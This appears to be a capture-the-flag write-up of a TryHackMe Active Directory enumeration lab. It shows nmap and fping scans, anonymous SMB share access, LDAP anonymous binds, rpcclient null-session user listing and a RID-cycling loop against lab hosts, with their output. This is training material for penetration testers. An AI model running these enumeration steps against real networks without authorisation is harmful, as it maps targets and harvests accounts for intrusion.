

# AD: Basic Enumeration

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Easy
OS: N/A
Subscription type: Free
Description: Learn how to enumerate an Active Directory network and get initial access.
```

Room link: [https://tryhackme.com/room/adbasicenumeration](https://tryhackme.com/room/adbasicenumeration)

## Solution

### Task 1: Introduction

Active Directory (AD) enumeration is a crucial first step in penetration testing Microsoft Windows enterprise networks. During many internal penetration tests, we are often given VPN access to the target network without user credentials. That means we need to gather as much information as possible about the domain: users, groups, computers, and policies. This will allow us to identify potential vulnerabilities or attack paths that might give us an initial foothold, such as access to a user’s workstation.

#### Learning Objectives

In this room, we’ll learn how to:

- Enumerate the target domain and network.
- Enumerate valid domain users and identify misconfigurations.
- Perform password spraying attacks to get your first pair of valid AD credentials.
- Discover sensitive credentials stored in configuration files.

#### Room Prerequisites

Before starting the room, solid knowledge of MS Windows, Active Directory, Linux, and Networking is recommended. You can learn or refresh your knowledge of these topics by checking the following modules:

- The [Windows and AD Fundamentals module](https://tryhackme.com/module/windows-and-active-directory-fundamentals), including its last room, the [Active Directory Basics room](https://tryhackme.com/room/winadbasics)
- The [Linux Fundamentals module](https://tryhackme.com/module/linux-fundamentals)
- The [Command Line module](https://tryhackme.com/module/command-line)
- The [Networking module](https://tryhackme.com/module/networking)

#### Starting the Network

Before moving to the next task, click the green **Start** button under the network diagram. Give the network enough time to launch.

You can connect to the network in two ways:

**Option 1**: Using the AttackBox

Click the **Start AttackBox** button at the top of this room. Once ready, your AttackBox will be available on the split-screen.

**Option 2**: Over a VPN Connection

Alternatively, you can connect to the network via the VPN. To establish a VPN connection to this network, you need to browse to the [access page](https://tryhackme.com/access), click the **Networks** tab, select **Jr-Pentester-AD-v01**, and hit the **Download configuration file** button. Note that if you don’t see this file available for download, please ensure you have started the network in the room and given it a few minutes.



Then run the following command from the same directory where your VPN configuration file is located:

`sudo openvpn [your_configuration_file_name.ovpn]`

If you have issues connecting to the VPN, have a look this [help article](https://help.tryhackme.com/en/articles/6496058-troubleshooting-openvpn-on-linux-and-mac).

#### Verifying Connectivity to the Network

You can run the `route` command to verify that your attacker machine can communicate with the target network. The terminal below shows an example output.

```bash
root@tryhackme:~# route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.10.0.1       0.0.0.0         UG    100    0        0 ens5
10.10.0.0       0.0.0.0         255.255.0.0     U     100    0        0 ens5
10.10.0.1       0.0.0.0         255.255.255.255 UH    100    0        0 ens5
[...]
10.211.11.0     10.250.11.1     255.255.255.0   UG    1000   0        0 tun0
10.250.11.0     0.0.0.0         255.255.255.0   U     0      0        0 tun0
[...]
```

Alternatively, you can use the `ip route` command.

```bash
root@tryhackme:~# ip route
default via 10.10.0.1 dev ens5 proto dhcp src 10.10.130.73 metric 100 
10.10.0.0/16 dev ens5 proto kernel scope link src 10.10.130.73 metric 100 
10.10.0.1 dev ens5 proto dhcp scope link src 10.10.130.73 metric 100 
[...]
10.211.11.0/24 via 10.250.11.1 dev tun0 metric 1000 
10.250.11.0/24 dev tun0 proto kernel scope link src 10.250.11.2 
[...]
```

Confirm that you can see the `10.211.11.0` subnet in the command output. If it is in the output, your machine should be able to communicate with the target network. Moreover, you can use the `ping` command against the target machines.

- Workstation: 10.211.11.20
- DC: 10.211.11.10

### Task 2: Mapping Out the Network

We've just been given VPN access to an Active Directory network. We don't have any credentials yet; only our attacking machine is equipped with the greatest and latest tools. Our goal is to discover the structure of the Active Directory environment, identify hosts and services, and map out the network. Let's imagine for a second that we don't have a nice network diagram, and are given the following subnet as part of our scope: `10.211.11.0/24`

#### Host Discovery

One of the first things we can do is run a subnet host discovery scan. This will allow us to identify all live hosts in our target network range. Most clients will include a subnet range in the pentest scope, so we must discover all active hosts we might want to target. We will showcase two different tools that can be used for initial host discovery.

fping

Just like `ping`, `fping` uses Internet Control Message Protocol (ICMP) requests to determine if a host is live or not. However, with `fping`, we can specify any number of targets, including a subnet, making it more versatile than the `ping` command. Instead of sending a packet to one target until it replies or times out, `fping` will move to the next target after each request.

We can run the following command to discover live hosts in our target network:

```bash
user@tryhackme$ fping -agq 10.211.11.0/24
10.211.11.1
10.211.11.10
10.211.11.20
10.211.11.250
```

- `-a`: shows systems that are alive.
- `-g`: generates a target list from a supplied IP netmask.
- `-q`: quiet mode, doesn't show per-probe results or ICMP error messages.

After running this command, we identify four live hosts. `10.200.12.1` is the gateway, and `10.200.12.250` is the VPN server, so we can ignore these two hosts since they are out of scope. We can conveniently add the two IPS we've discovered to a text file called "hosts.txt" for our port scans.

```bash
user@tryhackme$ cat hosts.txt
10.211.11.20
10.211.11.10
```

Nmap

We can also use Nmap in ping scan mode (`-sn`) to probe the entire subnet:

`nmap -sn 10.211.11.0/24`

- `-sn`: Ping scan to determine which hosts are up without port scanning.

#### Port Scanning

Once we've discovered live hosts, we must identify which one is the Domain Controller (DC) to determine which critical AD-related services are being used and can be exploited. These are some common Active Directory ports and protocols:

| Port | Protocol | What it Means |
|----|----|----|
|88|Kerberos|Potential for Kerberos-based enumeration|
|135|MS-RPC|Potential for RPC enumeration (null sessions)|
|139|SMB/NetBIOS|Legacy SMB access|
|389|LDAP|LDAP queries to AD|
|445|SMB|Modern SMB access, critical for enumeration|
|464|Kerberos (kpasswd)|Password-related Kerberos service|

We can run a service version scan with these specific ports to help identify the DC:

`nmap -p 88,135,139,389,445 -sV -sC -iL hosts.txt`

- `-sV`: This enables version detection. Nmap will try to determine the version of the services running on the open ports.
- `-sC`: Runs Nmap Scripting Engine (NSE) scripts in the default category.
- `-iL`: This tells Nmap to read the list of target hosts from the file `hosts.txt`. Each line in this file should contain a single IP address or hostname.

We can spot the Domain Controller because it will often have ports 88 (Kerberos), 389 (LDAP), and 445 (SMB) open, with banners like 'Windows Server' or even domain names revealed in the output of our nmap command.

If we were running a more exhaustive assessment or dealing with unfamiliar environments, starting with a full port scan ensures we don't miss critical services running on non-standard ports. We could use this command to scan for all open ports:

`nmap -sS -p- -T3 -iL hosts.txt -oN full_port_scan.txt`

- `-sS`: TCP SYN scan, which is stealthier than a full connect scan
- `-p-`: Scans all 65,535 TCP ports.
- `-T3`: Sets the timing template to "normal" to balance speed and stealth.
- `-iL hosts.txt`: Inputs the list of live hosts from the previous nmap command.
- `-oN full_port_scan.txt`: Outputs the results to a file.

Through these enumeration techniques, we have identified two live hosts in our target network, one DC and one Workstation, and the domain. We have also confirmed a couple of known services running on the DC, which we can target to further enumerate the domain.

-----------------------------------------------------------------

#### What is the domain name of our target?

Hint: Run this command `nmap -p 88,135,139,389,445 -sV -sC -iL hosts.txt` and look for a domain ending in ".loc" in the output

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ nmap -v -p 88,135,139,389,445,464 -sV -sC 10.211.11.10,20
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-21 19:38 CEST
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 19:38
Completed NSE at 19:38, 0.00s elapsed
Initiating NSE at 19:38
Completed NSE at 19:38, 0.00s elapsed
Initiating NSE at 19:38
Completed NSE at 19:38, 0.00s elapsed
Initiating Ping Scan at 19:38
Scanning 2 hosts [4 ports/host]
Completed Ping Scan at 19:38, 0.06s elapsed (2 total hosts)
Initiating Parallel DNS resolution of 2 hosts. at 19:38
Completed Parallel DNS resolution of 2 hosts. at 19:38, 0.01s elapsed
Initiating SYN Stealth Scan at 19:38
Scanning 2 hosts [6 ports/host]
Discovered open port 139/tcp on 10.211.11.20
Discovered open port 135/tcp on 10.211.11.20
Discovered open port 445/tcp on 10.211.11.20
Discovered open port 139/tcp on 10.211.11.10
Discovered open port 135/tcp on 10.211.11.10
Discovered open port 445/tcp on 10.211.11.10
Discovered open port 88/tcp on 10.211.11.10
Discovered open port 389/tcp on 10.211.11.10
Discovered open port 464/tcp on 10.211.11.10
Completed SYN Stealth Scan at 19:38, 0.18s elapsed (12 total ports)
Initiating Service scan at 19:38
Scanning 9 services on 2 hosts
Completed Service scan at 19:38, 10.67s elapsed (9 services on 2 hosts)
NSE: Script scanning 2 hosts.
Initiating NSE at 19:38
Completed NSE at 19:39, 17.37s elapsed
Initiating NSE at 19:39
Completed NSE at 19:39, 0.55s elapsed
Initiating NSE at 19:39
Completed NSE at 19:39, 0.00s elapsed
Nmap scan report for 10.211.11.10
Host is up (0.059s latency).

PORT    STATE SERVICE      VERSION
88/tcp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-05-21 17:38:46Z)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: tryhackme.loc0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds Windows Server 2019 Datacenter 17763 microsoft-ds (workgroup: TRYHACKME)
464/tcp open  kpasswd5?
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2019 Datacenter 17763 (Windows Server 2019 Datacenter 6.3)
|   Computer name: DC
|   NetBIOS computer name: DC\x00
|   Domain name: tryhackme.loc
|   Forest name: tryhackme.loc
|   FQDN: DC.tryhackme.loc
|_  System time: 2025-05-21T17:38:57+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2025-05-21T17:38:58
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 2s, deviation: 4s, median: 0s

Nmap scan report for 10.211.11.20
Host is up (0.059s latency).

PORT    STATE  SERVICE       VERSION
88/tcp  closed kerberos-sec
135/tcp open   msrpc         Microsoft Windows RPC
139/tcp open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp closed ldap
445/tcp open   microsoft-ds?
464/tcp closed kpasswd5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-21T17:38:53
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

NSE: Script Post-scanning.
Initiating NSE at 19:39
Completed NSE at 19:39, 0.00s elapsed
Initiating NSE at 19:39
Completed NSE at 19:39, 0.00s elapsed
Initiating NSE at 19:39
Completed NSE at 19:39, 0.00s elapsed
Post-scan script results:
| clock-skew: 
|   2s: 
|     10.211.11.10
|_    10.211.11.20
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 2 IP addresses (2 hosts up) scanned in 29.30 seconds
           Raw packets sent: 20 (832B) | Rcvd: 17 (692B)
```

Answer: tryhackme.loc

#### What version of Windows Server is running on the DC?

See results above.

Answer: Windows Server 2019 Datacenter

### Task 3: Network Enumeration With SMB

In this task, we assume that we have breached the perimeter of a corporate network and have access to a Linux-based box. We will be using the AttackBox; however, feel free to connect your favourite offensive Linux distribution over VPN.

We will focus on enumerating network shares using the Server Message Block (SMB) protocol. We will use various tools like Nmap to discover the relevant listening ports and identify services. Then, we will attempt to access their contents from the AttackBox using tools such as `smbclient` and `smbmap`. Furthermore, we will try to grab the contents of accessible SMB shares. Finally, we will mention a few more relevant tools. Let’s begin!

#### Discovering Services

We will begin our “discovery” with the good old Nmap. We are mainly interested in MS Windows and Active Directory-related ports. We will limit our scan to the following ports:

- **TCP 88 (Kerberos)**: Kerberos uses this port for authentication in the Active Directory. From a penetration testing point of view, it can be a goldmine for ticket attacks like Pass-the-Ticket and Kerberoasting.
- **TCP 135 (RPC Endpoint Mapper)**: This TCP port is used for Remote Procedure Calls (RPC). It might be leveraged to identify services for lateral movement or remote code execution via DCOM.
- **TCP 139 (NetBIOS Session Service)**: This port is used for file sharing in older Windows systems. It can be abused for null sessions and information gathering.
- **TCP 389 (LDAP)**: This TCP port is used by the Lightweight Directory Access Protocol (LDAP). It is in plaintext and can be a prime target for enumerating AD objects, users, and policies.
- **TCP 445 (SMB)**: Critical for file sharing and remote admin; abused for exploits like EternalBlue, SMB relay attacks, and credential theft.
- **TCP 636 (LDAPS)**: This port is used by Secure LDAP. Although it is encrypted, it can still expose AD structure if misconfigured and can be abused via certificate-based attacks like AD CS exploitation.

We can use the Nmap scanner to check if any active services are listening on these ports, attempt to detect their versions with `-sV`, and allow default scripts to run with `-sC`. Our final command will be, `nmap -p 88,135,139,389,445,636 -sV -sC TARGET_IP`. The result of scanning the domain controller is shown below.

```bash
root@tryhackme:~# nmap -p 88,135,139,389,445,636 -sV -sC 10.211.11.10
[...]
PORT    STATE SERVICE      VERSION
88/tcp  open  kerberos-sec Microsoft Windows Kerberos (server time: 2025-05-15 12:41:17Z)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: tryhackme.loc0., Site: Default-First-Site-Name)
445/tcp open  microsoft-ds Windows Server 2019 Datacenter 17763 microsoft-ds (workgroup: TRYHACKME)
636/tcp open  tcpwrapped
[...]
```

The above open ports indicate an MS Windows Active Directory environment. The presence of Kerberos and LDAP ports might indicate that this is part of an Active Directory domain or even a domain controller.

#### Listing SMB Shares

At this stage, we don’t have valid credentials. Let’s check the exposed SMB shares and see if we can connect to any of them anonymously. We will try an anonymous connection, also known as a null session because it uses no username or password, and see if we can get access. There are two good tools for enumerating SMB shares from a Linux box: `smbclient` and `smbmap`.

`smbclient` is a command-line tool that allows interaction with SMB shares and is part of the Samba suite. It is similar to an FTP client. You can use it to list, upload, download, and browse files on a remote SMB server. In the terminal below, we try to list the shares via the `-L` option, with no password, hence the `-N` option. We can see some interesting shares below running `smbclient -L //TARGET_IP -N`.

```bash
root@tryhackme:~# smbclient -L //10.211.11.10 -N
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        AnonShare       Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SharedFiles     Disk      
        SYSVOL          Disk      Logon server share 
        UserBackups     Disk      
SMB1 disabled -- no workgroup available
```

Another tool is `smbmap`, a reconnaissance tool that enumerates SMB shares across a host. It can be used to display read and write permissions for each share. It’s instrumental for quickly identifying accessible or misconfigured shares without manually connecting to each one. Below is an example of running `smbmap -H TARGET_IP`. Note that `smbmap` is located in `/root/Desktop/Tools/Miscellaneous/smbmap` on the AttackBox.

```bash
root@tryhackme:~/Desktop/Tools/Miscellaneous/smbmap# ./smbmap.py -H 10.211.11.10
[+] Finding open SMB ports....
[+] User SMB session established on 10.211.11.10...
[+] IP: 10.211.11.10:445        Name: 10.211.11.10        
        Disk                     Permissions     Comment
        ----                     -----------     -------
        ADMIN$                   NO ACCESS       Remote Admin
        AnonShare                READ, WRITE
        C$                       NO ACCESS       Default share
        IPC$                     NO ACCESS       Remote IPC
        NETLOGON                 NO ACCESS       Logon server share 
        SharedFiles              READ, WRITE
        SYSVOL                   NO ACCESS       Logon server share 
        UserBackups              READ, WRITE
```

Running either of the above commands, we can notice that there are three non-standard shares that catch our attention: `AnonShare`, `SharedFiles` and `UserBackups`.

It is worth noting that you can also discover which shares grant access using Nmap. Using Nmap’s `smb-enum-shares` script, we can explore which shares give READ/WRITE, READ, or no access. The syntax is `nmap -p445 --script smb-enum-shares 10.211.11.10`.

#### Accessing SMB Shares

Now that we have listed the shares, let’s attempt to access the ones that allow anonymous access. We might discover any interesting files that might help us gain access. We will target all the shares that showed `READ` access among their permissions when we ran `smbmap`. To use `smbclient` to connect to a share, you can use `smbclient //TARGET_IP/SHARE_NAME -N`. After connecting, we listed the files by issuing `ls` as shown below. Once you find the filename, you can download it using `get file_name`. In the terminal above, we did a get `Mouse_and_Malware.txt` to download the file to the AttackBox.

```bash
root@tryhackme:~# smbclient //10.211.11.10/SharedFiles -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu May 15 16:03:40 2025
  ..                                  D        0  Thu May 15 16:03:40 2025
  Mouse_and_Malware.txt               A     1141  Thu May 15 10:40:19 2025

                7863807 blocks of size 4096. 3459432 blocks available
smb: \> get Mouse_and_Malware.txt
getting file \Mouse_and_Malware.txt of size 1141 as Mouse_and_Malware.txt (69.6 KiloBytes/sec) (average 69.6 KiloBytes/sec)
smb: \> exit
```

Since we don’t have login credentials, we are trying to access the various shares without a password, i.e., with the `-N` option. However, if you have a username and password to access the SMB share, you can easily specify them with `--user=USERNAME --password=PASSWORD` or `-U 'username%password'`. Note that for domain accounts, you need to specify the domain using `-W`.

#### What Can We Find in SMB Shares

An anonymous SMB share is a horrible idea. However, system administrators may have enabled it for legacy systems to work. Maybe an old printer needs to read a file, or an old scanner needs to write a file.

From a penetration testers’ point of view, SMB shares might contain configuration files, backup files, scripts, and even documents. After all, accessing a particular folder from any computer on the network is convenient. If the folder allows writing, it will only encourage users to upload more files. Some files might contain usernames or even credentials with a password that never got changed. In summary, it is essential to thoroughly search for any available shares as you might uncover useful hidden secrets.

#### Other Tools and Resources

There are other tools that can be pretty useful as well. Examples include `impacket-smbclient`, which is a Python-based implementation of `smbclient` available from the Impacket toolkit. The Impacket toolkit is available on the AttackBox in the `/opt/impacket/examples/` directory.

[CrackMapExec](https://www.kali.org/tools/crackmapexec/) is not only for post-exploitation but also for enumeration. It includes many SMB modules for listing shares, testing credentials, and many others.

The `enum4linux` or `enum4linux-ng` is a powerful tool that performs extensive enumeration over SMB. You can try `enum4linux -a TARGET_IP` to get a trove of information. It might be a good idea to redirect the output to a file so that you can go through it slowly.

Finally, as mentioned earlier in this task, we should not forget Nmap with the `smb-enum-shares` script.

-----------------------------------------------------------------

#### What is the flag hidden in one of the shares?

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ smbmap -H 10.211.11.10

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.211.11.10:445        Name: 10.211.11.10              Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        AnonShare                                               READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SharedFiles                                             READ, WRITE
        SYSVOL                                                  NO ACCESS       Logon server share 
        UserBackups                                             READ, WRITE
[*] Closed 1 connections   

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ smbmap -H 10.211.11.10 -r          

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.211.11.10:445        Name: 10.211.11.10              Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        AnonShare                                               READ, WRITE
        ./AnonShare
        dr--r--r--                0 Wed May 21 20:04:26 2025    .
        dr--r--r--                0 Wed May 21 20:04:26 2025    ..
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SharedFiles                                             READ, WRITE
        ./SharedFiles
        dr--r--r--                0 Wed May 21 20:04:27 2025    .
        dr--r--r--                0 Wed May 21 20:04:27 2025    ..
        fr--r--r--             1141 Thu May 15 16:11:12 2025    Mouse_and_Malware.txt
        SYSVOL                                                  NO ACCESS       Logon server share 
        UserBackups                                             READ, WRITE
        ./UserBackups
        dr--r--r--                0 Wed May 21 20:04:27 2025    .
        dr--r--r--                0 Wed May 21 20:04:27 2025    ..
        fr--r--r--               14 Thu May 15 16:11:42 2025    flag.txt
        fr--r--r--              953 Thu May 15 16:11:42 2025    story.txt
[*] Closed 1 connections   

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ smbmap -H 10.211.11.10 --download UserBackups/flag.txt

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
[+] Starting download: UserBackups\flag.txt (14 bytes)                                                                   
[+] File output to: /mnt/hgfs/Wargames/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration/10.211.11.10-UserBackups_flag.txt
[*] Closed 1 connections                                                                                                     

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/AD_Basic_Enumeration]
└─$ cat 10.211.11.10-UserBackups_flag.txt                       
THM{<REDACTED>}  
```

Answer: `THM{<REDACTED>}`

### Task 4: Domain Enumeration

Now that we have a better understanding of our target's network, it's time to enumerate users to help us identify valid accounts and potential targets. Usernames can be gathered through various unauthenticated methods, each relying on different misconfigurations.

In this task, we'll explore some of the tools and techniques needed for successful user enumeration.

#### LDAP Enumeration (Anonymous Bind)

Lightweight Directory Access Protocol (LDAP) is a widely used protocol for accessing and managing directory services, such as Microsoft Active Directory. LDAP helps locate and organise resources within a network, including users, groups, devices, and organisational information, by providing a central directory that applications and users can query.

Some LDAP servers allow anonymous users to perform read-only queries. This can expose user accounts and other directory information.

We can test if anonymous LDAP bind is enabled with `ldapsearch`:

`ldapsearch -x -H ldap://10.211.11.10 -s base`

- `-x`: Simple authentication, in our case, anonymous authentication.
- `-H`: Specifies the LDAP server.
- `-s`: Limits the query only to the base object and does not search subtrees or children.

If it is enabled, we should see lots of data, similar to the output below:

```bash
user@tryhackme$ ldapsearch -x -H ldap://10.211.11.10 -s base
dn:
domainFunctionality: 6
forestFunctionality: 6
domainControllerFunctionality: 7
rootDomainNamingContext: DC=tryhackme,DC=loc
ldapServiceName: tryhackme.loc:dc$@TRYHACKME.LOC
isGlobalCatalogReady: TR
dsServiceName: CN=NTDS Settings,CN=DC,CN=Servers,CN=Default-First-Site-Name,CN
 =Sites,CN=Configuration,DC=tryhackme,DC=loc
dnsHostName: DC.tryhackme.loc
defaultNamingContext: DC=tryhackme,DC=loc
currentTime: 20250514173531.0Z
configurationNamingContext: CN=Configuration,DC=tryhackme,DC=loc
search result
search: 2
result: 0 Success
```

We can then query user information with this command:

`ldapsearch -x -H ldap://10.211.11.10 -b "dc=tryhackme,dc=loc" "(objectClass=person)"`

#### Enum4linux-ng

`enum4linux-ng` is a tool that automates various enumeration techniques against Windows systems, including user enumeration. It utilizes SMB and RPC protocols to gather information such as user lists, group memberships, and share details.

We can run the following command to get as much information as possible from the DC:

`enum4linux-ng -A 10.211.11.10 -oA results.txt`

- `-A`: Performs all available enumeration functions (users, groups, shares, password policy, RID cycling, OS information and NetBIOS information).
- `-oA`: Writes output to YAML and JSON files.

#### RPC Enumeration (Null Sessions)

Microsoft Remote Procedure Call (MSRPC) is a protocol that enables a program running on one computer to request services from a program on another computer, without needing to understand the underlying details of the network. RPC services can be accessed over the SMB protocol. When SMB is configured to allow null sessions that do not require authentication, an unauthenticated user can connect to the IPC$ share and enumerate users, groups, shares, and other sensitive information from the system or domain.

We can run the following command to verify null session access with:

`rpcclient -U "" 10.211.11.10 -N`

- `-U`: Used to specify the username, in our case, we are using an empty string for anonymous login.
- `-N`: Tells RPC not to prompt us for a password.

If successful, we can enumerate users with: `enumdomusers`

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[sshd] rid:[0x649]
user:[gerald.burgess] rid:[0x650]
user:[nigel.parsons] rid:[0x651]
user:[guy.smith] rid:[0x652]
user:[jeremy.booth] rid:[0x653]
user:[barbara.jones] rid:[0x654]
user:[marion.kay] rid:[0x655]
user:[kathryn.williams] rid:[0x656]
user:[danny.baker] rid:[0x657]
user:[gary.clarke] rid:[0x658]
user:[daniel.turner] rid:[0x659]
user:[debra.yates] rid:[0x65a]
user:[jeffrey.thompson] rid:[0x65b]
user:[martin.riley] rid:[0x65c]
user:[danielle.lee] rid:[0x65d]
user:[douglas.roberts] rid:[0x65e]
user:[dawn.bolton] rid:[0x65f]
user:[danielle.ali] rid:[0x660]
user:[michelle.palmer] rid:[0x661]
user:[katie.thomas] rid:[0x662]
user:[jennifer.harding] rid:[0x663]
user:[strategos] rid:[0x664]
user:[empanadal0v3r] rid:[0x665]
user:[drgonz0] rid:[0x666]
user:[strate905] rid:[0x667]
user:[krbtgtsvc] rid:[0x668]
user:[asrepuser1] rid:[0x669]
user:[rduke] rid:[0xa31]
```

You can run **help** in the `rpcclient` shell to view the list of available commands. With the right permissions, we can enumerate the domain thoroughly through RPC

#### RID Cycling

In Active Directory, RID (Relative Identifier) ranges are used to assign unique identifiers to user and group objects. These RIDs are components of the Security Identifier (SID), which uniquely identifies each object within a domain. Certain RIDs are well-known and standardised.

**500** is the Administrator account, **501** is the Guest account and **512-514** are for the following groups: Domain Admins, Domain users and Domain guests. User accounts typically start from RID **1000** onwards.

We can use `enum4linux-ng` to determine the RID range, or we can start with a known range, for example, 1000-1200, and increment if we get results.

If `enumdomusers` is restricted, we can manually try querying each individual user RID with this bash command:

```bash
user@tryhackme$ for i in $(seq 500 2000); do echo "queryuser $i" |rpcclient -U "" -N 10.211.11.10 2>/dev/null | grep -i "User Name"; done
    User Name   :    sshd
    User Name   :    gerald.burgess
    User Name   :    nigel.parsons
    User Name   :    guy.smith
    User Name   :    jeremy.booth
    User Name   :    barbara.jones 
```

- `for i in $(seq 500 2000)`: We first run a for loop to iterate through a range of possible RIDs to identify valid user accounts.
- `echo "queryuser $i"`: queries information about the user associated with RID $i.
- `2>/dev/null`: Redirects any error messages (standard error) to /dev/null, effectively silencing them.
- `| grep -i "User Name"`: filters the output to display lines containing "User Name", ignoring case sensitivity (-i).

Please note that this command can take 2-3 minutes to complete.

#### Username Enumeration With Kerbrute

